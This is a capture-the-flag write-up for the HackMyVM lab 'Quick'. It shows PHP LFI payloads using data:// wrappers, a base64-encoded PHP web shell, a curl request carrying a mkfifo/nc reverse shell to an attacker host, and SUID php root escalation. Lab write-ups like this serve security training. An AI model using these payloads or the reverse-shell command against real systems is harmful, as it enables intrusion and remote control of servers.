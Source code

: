 ```yaml
---
title: HackMyVM - Quick
date: 2024-01-31
tags: LFI LFI2RCE PHP-LFI
author: raylex
---
```

## Enumeration
- - -
### Ports
Target has only one port open - 80 (HTTP)
I discovered LFI in the endpont
```
http://192.168.56.101/index.php?page=
```
since i know it's PHP, i used some PHP wrappers from [File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#data)
I'll get the `/etc/passwd` file using this payload:
```
data://text/plain,<?php echo base64_encode(file_get_contents("/etc/passwd")); ?>
```
## Foothold
- - -
I see there's a user `andrew` on the target and i can read their home directory which contains the user flag.
I'll use one of the payloads to get RCE and retrieve user flag
Payload:
```
data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```
Request:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="cat+/home/andrew/user.txt""
```
The content of the base64 is
```
<?php system($_GET['cmd']);echo 'Shell done !'; ?>
```
Result:
```
    <main>


                                 _________
                          _.--""'-----,   `"--.._
                       .-''   _/_      ; .'"----,`-,
                     .'      :___:     ; :      ;;`.`.
                    .      _.- _.-    .' :      ::  `..
                 __;..----------------' :: ___  ::   ;;
            .--"". '           ___.....`:=(___)-' :--'`.
          .'   .'         .--''__       :       ==:    ;
      .--/    /        .'.''     ``-,   :         :   '`-.
   ."', :    /       .'-`\\       .--.\ :         :  ,   _\
  ;   ; |   ;       /:'  ;;      /__  \\:         :  :  /_\\
  |\_/  |   |      / \__//      /"--\\ \:         :  : ;|`\|
  : "  /\__/\____//   """      /     \\ :         :  : :|'||
["""""""""--------........._  /      || ;      __.:--' :|//|
 "------....______         ].'|      // |--"""'__...-'`\ \//
   `|HMV{flag-flag}|.--'": :  \    //  |---"""      \__\_/
     """""""""'            \ \  \_.//  /
       `---'                \ \_     _'
                             `--`---'
```

# Privilege Escalation 
- - -
I got reverse shell as `www-data` using this payload:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%203371%20%3E%2Ftmp%2Ff""
```
Stabilize the shell
Looking at he `SUID` binaries i see an unusual binary `/usr/bin/php7.0` according to [php | GTFOBins](https://gtfobins.github.io/gtfobins/php/) i can spawn a shell as root:
```
/usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
```
I have shell as root, so i'll retieve the root flag
```
# cat /root/root.txt


            ___.............___
         ,dMMMMMMMMMMMMMMMMMMMMMb.
        dMMMMMMMMMMMMMMMMMMMMMMMMMb
        |        | -_  - |        |
        |        |_______|___     |
        |     ___......./'.__`\   |
        |_.-~"               `"~-.|
        7\         _...._        |`.
       /  l     .-'      `-.     j  \
      :   .qp. / __________ \ .qp.   :
      |  d8888b |          | d8888b  |
  .---:  `Y88P|_|__________|_|Y88P'\/`"-.
 /     : /,------------------------.:    \
:      |`.    | | [_FLAG_] ||     ,'|     :
`\.____|  `.  : `.________.'|   ,'  |____.'
  MMMMM|   |  |`-.________.-|  /    |MMMMM
 .-------------`------------'-'-----|-----.
(___HMV{root-flag}__)
  MMMMMM                            MMMMMM
  `MMMM'                            `MMMM'
```
